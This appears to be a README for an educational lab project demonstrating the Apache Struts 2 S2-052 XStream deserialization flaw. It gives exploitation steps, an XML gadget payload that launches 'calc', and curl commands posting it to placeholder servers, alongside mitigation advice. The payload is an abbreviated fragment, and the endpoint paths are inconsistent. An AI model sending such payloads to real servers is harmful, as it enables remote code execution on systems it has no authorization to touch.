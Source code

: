 # S2-052 Vulnerability Demonstration

## Overview
S2-052 is a critical vulnerability in Apache Struts 2 that allows Remote Code Execution (RCE) due to improper deserialization of XML payloads. The issue arises because the REST Plugin uses a `XStreamHandler` with an instance of XStream for deserialization without any type filtering. This allows attackers to send malicious XML payloads that can execute arbitrary code on the server.

## Exploitation Steps
1. **Deploy the Application**:
   - Build the project using Maven: `mvn clean package`.
   - Deploy the generated WAR file to a servlet container (e.g., Apache Tomcat).

2. **Access the Vulnerable Endpoint**:
   - Identify the REST endpoint configured in the application, such as `/orders`.

3. **Craft the Malicious Payload**:
   - Create an XML payload designed to exploit the deserialization vulnerability. For example:
     ```xml
     <map>
       <entry>
         <jdk.nashorn.internal.objects.NativeString>
           <flags>0</flags>
           <value>calc</value>
         </jdk.nashorn.internal.objects.NativeString>
         <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
       </entry>
     </map>
     ```

4. **Send the Exploit**:
   - Use a tool like `curl` or a custom script to send the malicious XML payload to the vulnerable REST endpoint.
     ```bash
     curl -X POST -H "Content-Type: application/xml" -d @payload.xml http://<server>:<port>/rest/vulnerable
     ```

5. **Observe the Result**:
   - Check the server logs or observe the system behavior to confirm the execution of the payload.

## Mitigation
To secure the application:
1. **Upgrade Struts**:
   - Update to a patched version of Apache Struts 2 where this vulnerability has been addressed.

2. **Enable Type Filtering**:
   - Configure XStream to use type filtering to prevent deserialization of arbitrary classes.

3. **Validate Input**:
   - Ensure all incoming XML payloads are validated against a strict schema.

4. **Use Security Plugins**:
   - Employ security plugins or WAF (Web Application Firewall) to detect and block malicious requests.

## REST Endpoints

The following REST endpoints are exposed by the `OrdersController` class:

1. **GET /orders**
   - Retrieves a list of all orders.

2. **GET /orders/{id}**
   - Retrieves details of a specific order by its ID.

3. **POST /orders**
   - Creates a new order.
   - Example payload:
     ```json
     {
       "clientName": "John Doe",
       "orderDetails": "Sample order details"
     }
     ```

4. **PUT /orders/{id}**
   - Updates an existing order by its ID.
   - Example payload:
     ```json
     {
       "clientName": "Jane Doe",
       "orderDetails": "Updated order details"
     }
     ```

5. **DELETE /orders/{id}**
   - Deletes an order by its ID.

6. **GET /orders/{id}/edit**
   - Retrieves the edit form for a specific order.

7. **GET /orders/new**
   - Retrieves the form to create a new order.

8. **GET /orders/{id}/deleteConfirm**
   - Retrieves the confirmation page for deleting an order.

## Demonstrating the Vulnerability Path

The vulnerability in S2-052 can be demonstrated through the following path:

1. **REST Plugin Configuration**:
   - The `struts.xml` file configures the `rest-showcase` package to extend `rest-default`, enabling the Struts 2 REST plugin.
     ```xml
     <constant name="struts.convention.default.parent.package" value="rest-showcase"/>
     <package name="rest-showcase" extends="rest-default">
     ```

2. **OrdersController**:
   - The `OrdersController` class handles REST requests for managing orders. It includes endpoints such as `POST /orders` and `PUT /orders/{id}`.
   - These endpoints process incoming data, which could include malicious XML payloads if deserialization is performed without type filtering.

3. **Vulnerable Endpoint**:
   - The `create` method in `OrdersController` processes `POST /orders` requests. This method is vulnerable to S2-052 if the REST plugin's `XStreamHandler` is used for deserialization without type filtering.
     ```java
     public HttpHeaders create() {
         log.debug("Processing XML payload for new order");
         // Simulate XML deserialization vulnerability
         ordersService.save(model);
         addActionMessage("New order created successfully");
         return new DefaultHttpHeaders("success")
             .setLocationId(model.getId());
     }
     ```

4. **Exploitation**:
   - An attacker can send a crafted XML payload to the `POST /orders` endpoint to exploit the deserialization vulnerability.
   - Example payload:
     ```xml
     <map>
       <entry>
         <jdk.nashorn.internal.objects.NativeString>
           <flags>0</flags>
           <value>calc</value>
         </jdk.nashorn.internal.objects.NativeString>
         <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
       </entry>
     </map>
     ```

5. **REST Call**:
   - Use a tool like `curl` to send the malicious payload:
     ```bash
     curl -X POST -H "Content-Type: application/xml" -d @payload.xml http://<server>:<port>/orders
     ```

## Disclaimer
This project is for educational purposes only. Exploiting vulnerabilities without proper authorization is illegal and unethical.